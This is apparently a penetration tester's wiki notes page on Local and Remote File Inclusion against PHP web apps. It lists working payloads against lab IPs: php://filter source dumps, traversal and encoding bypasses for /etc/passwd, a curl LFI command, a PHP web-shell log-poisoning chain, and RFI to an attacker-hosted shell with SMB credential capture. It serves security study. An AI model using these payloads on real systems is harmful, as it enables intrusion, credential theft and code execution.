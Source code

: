 **Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow_url_include**). 

**Local File Inclusion (LFI):** The sever loads a local file.
# Guides

1. [File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
2. [Comprehensive Guide on Local File Inclusion (LFI) - Hacking Articles](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

Check the source of the website and the website fuzzing report for potential parameters which may be vulnerable.
# Local File Include

Local File Inclusion (LFI) is a vulnerability that allows an attacker to include files on the server through the web browser. This can lead to sensitive information disclosure, code execution, and other security issues. 

To exploit LFI, an attacker needs to find a vulnerable parameter in the application that includes files. This parameter can be a URL, a file path, or any other input that gets included in the server-side code. 

There are several techniques to exploit LFI, such as directory traversal, null byte injection, and using wrappers like php://input or data://. 

1. Just try the parameter (e.g. `book.php?bookNumber=/etc/password`) and see what happens
2. Supported wrappers, see [PHP: Supported Protocols and Wrappers - Manual](https://secure.php.net/manual/en/wrappers.php)
3. If files can be viewed
	1. If the log file is available, see [[#Log Poisoning]]
	2. Search for credentials, see [[Valuable Files]]
4. Potentially be able to get the source of the site using the wrappers, see [[#PHP Wrappers]]

## PHP Wrappers

### Website Source Retrieval

These return the Base64 of the site, see [[Base64]] to decode.

- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=view`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=upload`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index`
### Unzip File

[[Web Shells#ZIP Wrapper LFI]]
## LFI Bypass Filtering

See [[Web Application Firewall (WAF)]]

- Null byte: `http://10.10.10.80/?op=../../../etc/passwd%00&secretname=2f4823095649cab523452053417cded1dee9259e`
- Double encoding: `http://10.10.10.80/?op=%252e%252e%252fetc%252fpasswd&secretname=2f4823095649cab523452053417cded1dee9259e`
- Path truncation: `http://10.10.10.80/?op=../../../../[…]../../../../../etc/passwd&secretname=2f4823095649cab523452053417cded1dee9259e`
## LFI Shell

`curl -s 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=php://filter/read=convert.base64-encode/resource=/etc/php5/apache2/php.ini%00%27%7C base64 -d 2>/dev/null`

## Log Poisoning

Log poisoning is a technique used to manipulate log files on a server by injecting malicious input. This can be used in combination with Local File Inclusion (LFI) vulnerabilities to escalate an attack. 

Effectively if you can view a log file using LFI, you can manipulate the logs by maybe inputting a username which is actually a PHP web shell, then navigating to the log file using LFI, which may run the shell.

### Walkthrough

1. [RCE via LFI Log Poisoning - The Death Potion | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d#:~:text=What%20is%20log%20poisoning%20%3F,input%20to%20the%20server%20log)

### Guide

1. Find the log file using LFI
2. Find the technology the log file is for, e.g. FTP
3. Generate a log message using that technology with a malicious entry, e.g. FTP username: `<?php system($_GET[‘commandInjection’]); ?>` 
4. Navigate to the log file using LFI
5. `_/var/log/vsftpd.log&commandInjection=ifconfig

### Log File Locations

1. `/var/log/auth.log`
2. `/var/log/vsftpd.log`

# Remote File Include

Remote File Inclusion (RFI) is a vulnerability similar to LFI, but instead of including local files, it includes files from a remote server. This can be particularly dangerous as it allows an attacker to execute code on the server by including a malicious file hosted on their own server.

To exploit RFI, an attacker needs to find a vulnerable parameter in the application that includes files from a remote server. This parameter can be a URL pointing to the remote file. 

1. Replace the parameter with the remote IP of your machine, e.g. `/blog/?lang=\\10.10.14.29\\test`
2. Host a Python webserver
3. Point the website at a [[Web Shells|Web Shell]] 

## Guide

1. Point the RFI at a [[Netcat]] to see the request made first
	1. If a SMB request is made, see [[2. Enumeration/445. SMB/1. Guide#Responder|SMB Responder]] to capture credentials
2. Can be used to check for internal ports which are open, see [[Server-side request forgery (SSRF)]]


